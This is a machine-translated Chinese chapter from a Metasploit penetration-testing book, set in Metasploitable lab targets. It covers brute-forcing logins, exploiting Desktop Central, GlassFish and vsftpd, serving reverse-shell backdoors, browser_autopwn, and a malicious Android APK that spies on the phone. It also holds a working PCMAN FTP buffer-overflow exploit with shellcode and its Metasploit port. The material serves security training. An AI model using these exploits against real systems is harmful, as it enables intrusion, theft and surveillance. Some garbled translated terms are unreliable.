# 三、利用和获取访问权

在[第 2 章](2.html#VF2I0-a731d733dba14ccabae643b74e2c8790)*识别和扫描目标*中，我们对扫描网络中的多个服务进行了精确的观察，同时对其准确的版本号进行了指纹识别。我们必须找到正在运行的服务的确切版本号，以便能够利用驻留在特定版本软件中的漏洞。在本章中，我们将利用[第 2 章](2.html#VF2I0-a731d733dba14ccabae643b74e2c8790)、*识别和扫描目标*中学习的策略，利用某些系统的漏洞成功访问它们。我们将学习如何执行以下操作：

*   利用 Metasploit 利用应用程序
*   测试服务器以成功利用此漏洞
*   使用 Metasploit 攻击移动平台
*   使用基于浏览器的攻击进行客户端测试
*   在 Metasploit 中构建和修改现有的利用模块

让我们开始吧。

# 建立实践环境

在本章和后续章节中，我们将主要练习 Metasploitable 2 和 Metasploitable 3（故意易受攻击的操作系统）。此外，对于 Metasploitable 发行版中未涉及的练习，我们将使用我们的定制环境：

*   请按照说明在[处设置 Metasploitable 2https://community.rapid7.com/thread/2007](https://community.rapid7.com/thread/2007)
*   要设置 MetaSploi 表 3，请参阅[https://github.com/rapid7/metasploitable3](https://github.com/rapid7/metasploitable3)
*   请参阅优秀的视频教程，在[中设置 Metasploi 表 3https://www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT](https://www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT)

# 利用 Metasploit 利用应用程序

考虑在 B 类范围 IP 网络上执行渗透测试。让我们首先为我们的测试添加一个新的`workspace`并切换到它，如下面的屏幕截图所示：


我们添加了一个新的`workspace`，方法是发出`workspace`命令，然后是`-a`开关，最后是新工作区的名称。我们将我们的`workspace`切换到我们刚刚创建的工作区，再次发出`workspace`命令，后跟工作区的名称，在我们的例子中是`ClassBNetwork`。

在[第 2 章](2.html#VF2I0-a731d733dba14ccabae643b74e2c8790)、*识别和扫描目标*中，我们大量使用了 tcp 端口扫描辅助模块。让我们再次使用它，看看我们在这个网络上有什么惊喜：


没什么了不起的！我们只有两个开放的端口，即端口`80`和端口`22`。让我们通过发出`hosts`命令和`services`命令来验证扫描中发现的信息，如下面的屏幕截图所示：


我们可以看到，扫描中捕获的信息现在驻留在 Metasploit 的数据库中。然而，我们在扫描中没有发现太多。让我们在下一节中进行更精确的扫描。

# 在 Metasploit 中使用 db_nmap

Nmap 是最流行的网络扫描仪之一，在渗透测试和漏洞评估中使用最广泛。Metasploit 的美妙之处在于，它通过将结果集成并存储在数据库中，结合了 Nmap 的功能。让我们通过提供`-sS`开关对目标进行基本的隐形扫描。此外，我们使用`-p-`开关告诉 Nmap 扫描目标上的所有 65535 个端口，`--open`开关只列出所有打开的端口（这消除了过滤和关闭的端口），如以下屏幕截图所示：


我们可以看到，如果前面的命令在目标上运行彻底的扫描。让我们按如下方式分析扫描生成的输出：


我们可以看到目标上有许多端口打开。如果我们发现其中任何一个系统脆弱，我们可以把它们看作是系统的入口点。然而，正如前面所讨论的，要利用这些服务，我们需要弄清楚软件及其确切的版本号。`db_nmap`可以通过启动服务扫描向我们提供运行的软件版本。我们可以通过将`-sV`开关添加到上一个扫描命令并重新运行扫描来执行类似的服务扫描：


令人惊叹的我们已经在几乎 80%的开放端口上提取了其确切版本号的指纹。我们可以看到，我们有许多有吸引力的服务在目标上运行。让我们通过发出`services`命令来验证我们从扫描中收集的所有信息是否已成功迁移到 Metasploit：


是的！Metasploit 已经记录了一切。让我们以一些 web 服务器软件为目标，例如在端口`8022`上运行的 Apache Tomcat/Coyote JSP Engine 1.1。但是，在触发任何攻击之前，我们应始终通过 web 浏览器手动浏览端口来检查服务器上正在运行的应用程序，如以下屏幕截图所示：



惊喜我们在服务器端口`8022`上运行 Desktop Central 9。然而，Desktop Central 9 已知存在多个漏洞，其登录系统也可能被强制使用。我们现在可以把这个应用看作是一个潜在的门，我们需要通过它来获得系统的完全访问权。

# 使用 Metasploit 利用 Desktop Central 9

在上一节中，我们发现 ManageEngine 的 Desktop Central 9 软件运行在服务器的端口`8022`上。让我们在 Metasploit 中找到一个匹配的模块，以检查是否有任何利用模块或辅助模块可以帮助我们进入应用程序，如以下屏幕截图所示：


列出了大量模块！我们先用最简单的一个，就是`auxiliary/scanner/http/manageengine_desktop_central_login`。这个辅助模块允许我们强制桌面中心的凭据。让我们通过发出一个`use`命令，后跟`auxiliary/scanner/http/manageengine_desktop_central_login`来使用它。

此外，我们还将检查需要为该模块设置哪些选项才能完美工作，如以下屏幕截图所示：



我们显然需要将`RHOSTS`设置为目标的 IP 地址。若我们有一个管理员帐户，它不仅为我们提供访问权限，而且还授予我们执行各种操作的特权，那个么进入一个应用程序将会更加有趣。因此，让我们将用户名设置为`admin`。

暴力技术非常耗时。因此，我们可以通过将 threads 设置为`20`来增加线程数。我们还需要一个密码列表来尝试。我们可以在 Kali Linux 中使用 CEWL 应用程序快速生成一个。CEWL 可以快速爬过网站页面，构建可能是应用程序密码的潜在关键字。假设我们有一个名为`nipunjaswal.com`的网站。CEWL 将从网站中提取所有关键词，以建立一个潜在的关键词列表，其中包含诸如 Nipun、Metasploit、漏洞利用、nipunjaswal 等关键词。在我之前的所有渗透测试中，发现 CEWL 的成功率远远高于传统的暴力攻击。因此，让我们启动 CEWL 并建立如下目标列表：


我们可以看到 CEWL 生成了一个名为`pass.txt`的文件，因为我们使用`-w`开关提供了要写入的文件名。我们用 CEWL 生成的文件路径设置`pass_file`，如下图所示，运行模块：


在几秒钟内，我们得到了正确的用户名和密码组合，即 admin:admin。让我们通过手动登录到应用程序来验证它，如下所示：


是 啊我们已成功登录到应用程序。但是，我们必须注意，我们只是管理应用程序级访问，而不是系统级访问。此外，它不能被称为黑客，因为我们进行了暴力攻击。

CEWL 在定制 web 应用程序上更为有效，因为管理员在设置新系统时通常倾向于使用他们每天遇到的单词。

为了实现系统级访问，让我们再次深入了解模块的 Metasploit。有趣的是，我们有一个漏洞模块，`exploit/windows/http/manageengine_connectionid_write`。让我们使用该模块完全访问系统：


我们将`RHOST`和`RPORT`分别设置为`172.28.128.3`和`8022`，并发出`exploit`命令。默认情况下，Metasploit 将采用反向流量计有效负载，如以下屏幕截图所示：


我们有 MeterMeter 提示符，这意味着我们已成功访问目标系统。不知道背景中发生了什么？通过在模块上发出`info`命令，您始终可以阅读漏洞及其目标漏洞的描述，该命令将填充详细信息和描述，如下所示：



我们可以看到，由于应用程序未检查用户控制的输入而导致远程代码执行，因此发生了攻击。让我们在受损系统上执行一些基本的后期利用，因为我们将在[第 4 章](4.html#1UU540-a731d733dba14ccabae643b74e2c8790)、*Metasploit*的后期利用中介绍高级后期利用：


发出`getuid`命令获取当前用户名。我们可以看到，我们拥有 NT AUTHORITY\LOCAL SERVICE，这是一种高级别的特权。`getpid`命令获取我们一直坐在里面的进程的进程 ID。发出`sysinfo`命令会生成一般系统信息，如系统名称、操作系统类型、arch、系统语言、域、登录用户以及 meterepreter 类型。`idletime`命令将显示用户空闲的时间。您可以通过在 MeterMeter 控制台发出`?`来查找各种其他命令。

请参阅[中 MeterMeter 命令的使用 https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) 。

# 使用 Metasploit 测试 GlassFish web 服务器的安全性

GlassFish 是另一个开源应用服务器。GlassFish 是高度 Java 驱动的，在业界已被广泛接受。在我的渗透测试经验中，我曾多次遇到 GlassFish 驱动的 web 服务器，但非常罕见，比如说 10 次中就有 1 次。然而，越来越多的企业正在转向 GlassFish 技术；我们必须跟上。在我们的扫描中，我们发现一个 GlassFish 服务器在端口`8080`上运行，其 servlet 在端口`4848`上运行。让我们再次深入 Metasploit，搜索 GlassFish web 服务器的任何模块：



搜索模块，我们将找到与 GlassFish 相关的各种模块。让我们采取类似的方法，我们采取了前一个模块，并开始蛮力检查身份验证弱点。我们可以通过`auxiliary/scanner/http/glassfish_login`模块实现，如下图所示：


让我们将`RHOST`、想要入侵的用户名、密码文件（在 Kali Linux 的`/usr/share/wordlists`目录中列出的`fasttrack.txt`、线程数（以提高攻击速度）和`STOP_ON_SUCCESS`设置为`true`，这样，一旦找到密码，暴力强制应该停止测试更多凭据。让我们看看运行此模块时会发生什么：


我们成功地获得了证书。现在，我们可以登录到应用程序，以验证凭据是否有效，并可以按如下方式绕过应用程序：



凉的此时，您可能想知道我们现在是否将在 Metasploit 中搜索漏洞，并使用它来利用系统级访问，对吗？错误的为什么？还记得服务器上运行的 GlassFish 版本吗？它是 GlassFish 4.0，目前还不知道它有任何高度关键的漏洞。那么，接下来呢？我们应该将访问权限限制在应用程序级别吗？或者，我们可以尝试一些开箱即用的东西。当我们在 Metasploit 中搜索`glassfish`时，我们遇到了另一个模块`exploit/multi/http/glassfish_deployer`；我们能利用这一点吗？对我们将要做的是创建一个恶意的`.war`包并将其部署在 GlassFish 服务器上，这将导致远程代码执行。因为我们已经有了应用程序的凭据，所以这应该是小菜一碟。让我们看看：


让我们设置所有必要的参数，例如`RHOST`、`PASSWORD`（我们在前面演示的模块中找到）和`USERNAME`（如果不是 admin），并按如下方式运行模块：


我们应该看到一个远程外壳突然出现，对吗？让我们看看：


唉！由于我们无法访问`http://172.28.128.3:4848`，并且无法进行身份验证，因此由于失败，攻击被中止。原因可能是什么？原因是端口`4848`正在运行应用程序的 HTTPS 版本，我们正试图连接到 HTTP 版本。我们将`SSL`设置为`true`，如下图所示：


伟大的我们成功地连接到应用程序。但是，我们的攻击仍然失败，因为它无法自动选择目标。下面使用`show targets`命令查看模块支持的所有目标是什么：


既然我们知道 GlassFish 是一个 Java 驱动的应用程序，那么让我们通过发出`set target 1`命令将目标设置为 Java。此外，由于我们更改了目标，我们需要设置一个兼容的负载。让我们发出`show payloads`命令来填充目标上可以使用的所有匹配有效载荷。但是，最好的有效载荷是米-米有效载荷，因为它们通过各种支持和功能提供了很大的灵活性：


我们可以看到，因为我们将目标设置为 Java，所以我们有基于 Java 的 MeterMeter 有效负载，这将帮助我们访问目标。让我们设置`java/meterpreter/reverse_tcp payload`并运行模块：



我们可以看到我们接近了目标。然而，由于某种原因，连接中断。在处理不同类型的有效负载时，连接失效通知是一个标准错误。死会话的发生可能有多种原因，如防病毒检测、连接不稳定或应用程序不稳定。让我们尝试一个通用的基于 shell 的负载，例如`java/shell/reverse_tcp`，然后重新运行模块：



最后，我们到达了服务器。现在，我们被放入目标服务器的命令外壳中，可以执行任何我们需要的操作来满足攻击后的需求。让我们运行一些基本的系统命令，例如`dir`：


让我们尝试使用 type 命令读取一些有趣的文件，如下所示：


我们将在[第 4 章](4.html#1UU540-a731d733dba14ccabae643b74e2c8790)、*使用 Metasploit 进行后期利用*中介绍权限提升以及更多关于后期利用的内容。

# 利用 Metasploit 利用 FTP 服务

让我们假设网络中有另一个系统。让我们在 Metasploit 中执行一次快速`nmap`扫描，并计算出在其上运行的开放端口和服务的数量，如下所示：


目标上运行着大量的服务。我们可以看到目标的端口 21 上运行了 vsftpd 2.3.4，该端口有一个常见的后门漏洞。让我们在 Metasploit 中快速搜索并加载漏洞模块：


我们将模块的`RHOST`和`payload`设置如下：


我们可以看到，当发出`show payloads`命令时，我们不能看到太多的有效负载。我们只有一个有效载荷，它为我们提供了对目标的 shell 访问，一旦我们运行`exploit`命令，vsftpd 2.3.4 中的后门就会触发，我们就可以访问系统。发出一个标准命令，如 whoami，将显示当前用户，在我们的例子中是 root。我们不需要升级此系统上的权限。然而，更好地控制访问将是非常可取的。因此，让我们通过获得对目标的米级访问来改善这种情况。为了实现 MeterMeter 外壳，我们将首先创建一个 Linux MeterMeter 外壳二进制后门，并将其托管在服务器上。然后，我们将二进制后门下载到受害者的系统中，提供所有必要的权限，并在我们已经获得的 shell 访问的帮助下运行后门。但是，为了使后门工作，我们需要在系统上设置一个侦听器，该侦听器将侦听来自目标上后门执行的传入 MeterMeter 外壳。让我们开始：


我们快速生成一个单独的终端，并使用`msfvenom`使用`-p`开关生成`linux/x86/meterpreter/reverse_tcp`类型的后门，并提供`LHOST`和`LPORT`等选项，这些选项表示后门将连接到的 IP 地址和端口号。此外，我们还将使用`-f`开关提供后门的格式为`.elf`（默认 Linux 格式），并将其保存为我们系统上的`backdoor.elf`文件。

接下来，我们需要将生成的文件移动到我们的`/var/www/html/`目录，并启动 Apache 服务器，以便任何请求下载文件的请求都会收到后门文件：


现在，我们都准备使用 shell 在受害者端下载文件：


我们已成功下载目标端的文件。让我们启动一个处理程序，这样一旦后门被执行，我们的系统就会正确地处理它。要启动处理程序，我们可以在一个单独的终端中生成一个新的 Metasploit 实例，并可以使用`exploit/multi/handler`模块，如下所示：


接下来，我们需要设置用于生成后门的相同负载，如以下屏幕截图所示：


现在我们来设置基本选项，如`LHOST`和`LPORT`，如下图所示：


我们可以使用前面的屏幕截图中所示的`exploit -j`命令在后台启动处理程序。同时，在后台启动处理程序将允许多个受害者与处理程序连接。接下来，我们只需要在目标系统中为后门文件提供必要的权限并执行它，如下面的屏幕截图所示：



让我们看看运行后门文件时会发生什么：


我们可以看到，一旦我们运行了可执行文件，我们就在处理程序中得到了一个 meterpetershell。我们现在可以与会话交互，并且可以轻松地执行后期利用。

# 利用浏览器获取乐趣和利润

网络浏览器主要用于网上冲浪。然而，过时的 web 浏览器可能会导致整个系统受损。客户端可能永远不会使用预安装的 web 浏览器，而是根据自己的喜好选择浏览器。但是，默认预安装的 web 浏览器仍可能导致对系统的各种攻击。通过在浏览器组件中查找漏洞来利用浏览器被称为基于浏览器的攻击。

有关 Firefox 漏洞的更多信息，请参阅[http://www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452](http://www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452) 。

有关 Internet Explorer 漏洞，请参阅[http://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26](http://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26) 。

# 浏览器自动关闭攻击

Metasploit 提供浏览器自动 wn，这是一个自动攻击模块，用于测试各种浏览器的弱点并加以利用。为了了解该模块的内部工作原理，让我们讨论一下攻击背后的技术。

# 浏览器自动关闭攻击背后的技术

**Autopwn**是指自动攻击目标。autopwn 模块通过依次自动配置，在侦听模式下设置大多数基于浏览器的漏洞。然后，它等待传入的连接，并根据受害者的浏览器启动一组匹配的漏洞攻击。因此，无论受害者使用的是哪种浏览器，如果浏览器中存在漏洞，自动关闭脚本都会使用匹配的攻击模块自动对其进行攻击。

让我们详细了解这个攻击向量的工作原理，使用下面的图：


在前面的场景中，运行`browser_autopwn`模块的漏洞利用服务器启动并运行大量基于浏览器的漏洞利用及其相应的处理程序。一旦受害者的浏览器连接到漏洞攻击服务器，漏洞攻击服务器就会检查浏览器的类型，并根据匹配的漏洞攻击进行测试。在上图中，我们将 Internet Explorer 作为受害者的浏览器。因此，与 Internet Explorer 匹配的漏洞攻击会在受害者的浏览器上启动。成功利用此漏洞可连接回处理程序，攻击者获得对目标的 shell 或 MeterMeter 访问权限。

# 使用 Metasploit browser\u autown 攻击浏览器

要进行浏览器攻击，我们将使用 Metasploit 中的`browser_autopwn`模块，如下图所示：


我们可以看到，我们在 Metasploit 中成功加载了驻留在`auxiliary/server/browser_autpown`的`browser_autopwn`模块。要发起攻击，我们需要指定`LHOST`、`URIPATH`和`SRVPORT`。`SRVPORT`是我们的漏洞服务器基础将运行的端口。建议使用端口`80`或`443`，因为 URL 中添加的端口号吸引了很多人的眼球，而且看起来很可疑。`URIPATH`是各种漏洞攻击的目录路径，应通过将`URIPATH`指定为`/`保存在`root`目录中。让我们设置所有必需的参数并启动模块，如以下屏幕截图所示：


启动`browser_autopwn`模块将设置浏览器利用漏洞进入监听模式，等待传入连接，如以下屏幕截图所示：


基于浏览器，任何连接到系统端口`80`的目标都会受到大量攻击。让我们分析受害者如何连接到恶意攻击服务器：


我们可以看到，一旦受害者连接到我们的 IP 地址，`browser_autopwn`模块就会做出各种攻击响应，直到获得 MeterMeter 访问权限，如以下屏幕截图所示：



正如我们所见，`browser_autopwn`模块允许我们测试并积极利用受害者的浏览器中的众多漏洞。但是，客户端攻击可能会导致服务中断。在进行客户端利用测试之前，最好先获得许可。在下一节中，我们将看到像`browser_autopwn`这样的模块是如何对众多目标致命的。

# 用 Metasploit 攻击 Android

Android 平台可以通过创建简单的 APK 文件或将有效负载注入实际的 APK 来受到攻击。我们将讨论第一个问题。让我们首先生成一个带有`msfvenom`的 APK 文件，如下所示：


在生成 APK 文件时，我们需要做的就是说服受害者（执行社会工程）安装 APK 或实际访问手机。让我们看看受害者下载恶意 APK 后手机上会发生什么：


下载完成后，用户将按如下方式安装文件：


大多数人从未注意到应用程序要求什么权限。因此，攻击者可以完全访问手机并窃取个人数据。上一节列出了应用程序正确运行所需的权限。一旦安装成功，攻击者将获得对目标电话的 MeterMeter 访问权限，如下所示：



哇！我们可以很容易地进入计量器。[第 4 章](4.html#1UU540-a731d733dba14ccabae643b74e2c8790)、*Metasploit*对后期利用进行了广泛介绍。但是，让我们看看以下一些基本功能：


我们可以看到，运行`check_root`命令表示设备已根化。让我们看看其他一些功能：


我们可以使用`send_sms`命令从被攻击的手机向任何号码发送短信。让我们看看消息是否传递：



答对 了消息已成功传递。同时，让我们看看我们使用`sysinfo`命令闯入了什么系统，如下所示：


让我们`geolocate`手机如下：


浏览谷歌地图链接，我们可以获得手机的准确位置，如下所示：


让我们用手机摄像头拍摄以下照片：


我们可以看到我们从照相机里得到的照片。让我们按如下方式查看图像：


客户端利用很有趣。然而，这很难进行，因为我们需要受害者的行动和帮助来执行文件、访问链接或安装 APK。但是，在不可能进行直接攻击的情况下，客户端攻击是最有用的。

# 将漏洞转化为 Metasploit

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入 Metasploit。可从[下载公开可用的漏洞 https://www.exploit-db.com/exploits/31255/](https://www.exploit-db.com/exploits/31255/) 。让我们按如下方式分析该漏洞：

```
import socket as s
from sys import argv
host = "127.0.0.1"
fuser = "anonymous"
fpass = "anonymous"
junk = '\x41' * 2008
espaddress = '\x72\x93\xab\x71'
nops = '\x90' * 10
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1" "\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e" "\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23" "\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d" "\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5" "\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07" "\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c" "\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13" "\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3" "\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74" "\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0" "\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63" "\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29" "\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14" "\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02" "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

此直接攻击使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令攻击该软件。

有关构建漏洞、将其导入 Metasploit 以及绕过现代软件保护的更多信息，请参阅*Nipun Jaswal 撰写的*精通 Metasploit 第一版和第二版*的*第 2-4*章。*

前面列出的利用漏洞的整个过程可分为以下几点：

1.  在`fuser`、`pass`和`host`变量中存储用户名、密码和主机。
2.  为变量`junk`分配`2008 A`字符。这里，`2008`是覆盖 EIP 的偏移量。
3.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。
4.  将 10 个 NOP 存储到变量`nops`中。
5.  将用于执行计算器的有效载荷存储在变量`shellcode`中。
6.  连接`junk`、`espaddress`、`nops`和`shellcode`并将其存储在`sploit`变量中。
7.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`设置插座，并使用`port 21`上的 connect（`host`、`21`）连接到主机。
8.  使用`USER`和`PASS`提供`fuser`和`fpass`成功登录目标。
9.  发出`CWD`命令，后跟`sploit`变量。这将导致堆栈上的返回地址被覆盖，从而使我们能够控制 EIP，并最终执行计算器应用程序。

在[上了解更多有关堆栈溢出漏洞背后的剖析 https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 。

让我们尝试执行利用漏洞攻击并按如下方式分析结果：


最初的攻击从命令行获取用户名、密码和主机。但是，我们用固定的硬编码值修改了机制。

一旦我们执行攻击，将显示以下屏幕：


我们可以看到计算器应用程序弹出，表明该漏洞工作正常。

# 收集精华

让我们通过下表了解需要从前面的漏洞中获取哪些重要值，以便在 Metasploit 中生成等效模块：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2008` |
| 2. | 使用`JMP ESP`搜索从可执行模块中找到目标返回/跳转地址/值 | `0x71AB9372` |
| 3. | 目标端口 | `21` |
| 4. | 外壳代码的前导 NOP 字节数，用于删除不规则项 | `10` |
| 5. | 思维方式 | `CWD`命令后跟 2008 字节的垃圾数据，后跟任意返回地址、NOPs 和外壳代码 |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何帮助 FTP 进程，以及在 Metasploit 中创建漏洞利用模块是多么容易。

# 生成 Metasploit 模块

开始构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。然而，`Mona.py`脚本也可以动态生成 Metasploit 特定的模块。在本书的最后几节中，我们将介绍如何使用`Mona.py`脚本快速利用漏洞。

现在让我们看一下 Metasploit 中利用漏洞的等效代码，如下所示：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Ftp
def initialize(info = {})
super(update_info(info,
'Name' => 'PCMAN FTP Server Post-Exploitation CWD Command',
'Description' => %q{
This module exploits a buffer overflow vulnerability in PCMAN FTP
},
  'Author' =>
    [
      'Nipun Jaswal'

    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process',
      'VERBOSE' => true
     },
  'Payload' =>
    {
      'Space' => 1000,
      'BadChars' => "\x00\xff\x0a\x0d\x20\x40",
    },
  'Platform' => 'win',
  'Targets' =>
  [
  [ 'Windows XP SP2 English',
    {
  'Ret' => 0x71ab9372,
  'Offset' => 2008
    }
  ],
  ],
  'DisclosureDate' => 'May 9 2016',
  'DefaultTarget' => 0))
  register_options(
  [
Opt::RPORT(21),
OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
],self.class)
End

```

我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配所有必要的信息。收集利用漏洞的要素，我们分配`Ret`，返回地址和偏移量为`2008`。我们还将`FTPPASS`选项的值声明为`anonymous`。让我们看一下代码的下一部分，如下所示：

```
def exploit
  c = connect_login
  return unless c
    sploit = rand_text_alpha(target['Offset'])
    sploit << [target.ret].pack('V')
    sploit << make_nops(10)
    sploit << payload.encoded
    send_cmd( ["CWD " + sploit, false] )
    disconnect
  end
end

```

`connect_login`方法将连接到目标并尝试使用我们提供的凭据登录到软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含`FTP`库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`的值。

接下来，我们使用`rand_text_alpha`使用目标字段的偏移值生成`2008`的`junk`，并将其存储在 sploit 变量中。我们还使用`sploit`变量中的 pack（`V`）函数以小端格式存储目标字段中的`Ret`值。使用`make_nop`函数连接 NOP，然后将外壳代码连接到`sploit`变量，我们的输入数据就可以提供了。

接下来，我们使用`FTP`库中的`send_cmd`函数，将`sploit`变量中的数据发送到`CWD`命令中的目标。那么，Metasploit 有何不同？让我们看看以下几点：

*   我们不需要创建垃圾数据，因为`rand_text_aplha`函数为我们创建了垃圾数据。
*   我们不需要以 little endian 格式提供`Ret`地址，因为 pack（`V`函数帮助我们转换它。
*   我们不需要像`make_nops`为我们做的那样手动生成 NOP。
*   我们不需要提供任何硬编码的有效负载，因为我们可以在运行时决定和更改有效负载。有效载荷的切换机制通过消除外壳代码的手动更改来节省时间。
*   我们只是利用`FTP`库来创建和连接套接字。
*   最重要的是，我们不需要使用手动命令进行连接和登录，因为 Metasploit 使用一种方法为我们完成了连接和登录，即`connect_login`。

# 使用 Metasploit 利用目标应用程序

我们看到了 Metasploit 的使用比现有的漏洞利用有多大的好处。让我们利用应用程序并分析结果：


我们知道`FTPPASS`和`FTPUSER`已经将其值设置为`anonymous`。让我们提供`RHOST`和`payload`类型来利用目标机器，如下所示：


我们可以看到我们的攻击成功执行。然而，如果您不熟悉任何编程语言，您可能会发现这个练习很难。请参阅本章各节中突出显示的所有链接和参考资料，以深入了解并掌握利用中使用的每项技术。

# 总结和练习

好的，你在这一章学到了很多，在进入下一章之前，你需要研究很多。我们在本章中介绍了各种类型的应用程序，并成功地利用了它们。我们看到了`db_nmap`存储在数据库中的结果，这有助于我们分离数据。我们看到了 Desktop Central 9 等易受攻击的应用程序是如何被利用的。我们还介绍了很难利用的应用程序，获得对其凭据的访问权可以获得系统级访问权。我们看到了如何利用 FTP 服务并通过扩展功能获得更好的控制。接下来，我们看到了易受攻击的浏览器和恶意 Android 应用程序如何利用客户端漏洞破坏系统。最后，我们研究了如何将漏洞转化为与 Metasploit 兼容的漏洞。

这一章节奏很快；为了跟上速度，您必须研究并磨练您在漏洞研究、各种类型的溢出漏洞以及如何利用 Metasploitable 和其他**捕获 fla**g（**CTF**风格的操作系统提供的更多服务方面的技能。

您可以针对本章执行以下实践练习：

*   Metasploitable 3 中的 FTP 服务似乎没有任何严重漏洞。尽管如此，还是尝试进入应用程序。
*   端口 9200 上的 Elasticsearch 版本易受攻击。尝试访问系统。
*   利用 Metasploitable 2 中易受攻击的 proftpd 版本进行攻击。
*   使用浏览器自动 wn 进行驱动攻击（您应该在虚拟化环境中练习；如果在真实场景中执行，可能会有人因此而将您送进监狱）。
*   尝试使用 MeterMeter 注入合法的 APK 文件，并远程访问手机。您可以使用 Android studio 在虚拟设备上尝试此练习。
*   阅读“将利用漏洞转化为 Metasploit”部分中的参考教程，然后尝试构建/导入利用漏洞到 Metasploit。

在[第 4 章](4.html#1UU540-a731d733dba14ccabae643b74e2c8790)*使用 Metasploit*进行后期利用中，我们将介绍后期利用。我们将研究可以在受损机器上执行的各种高级功能。在那之前，再见！快乐学习。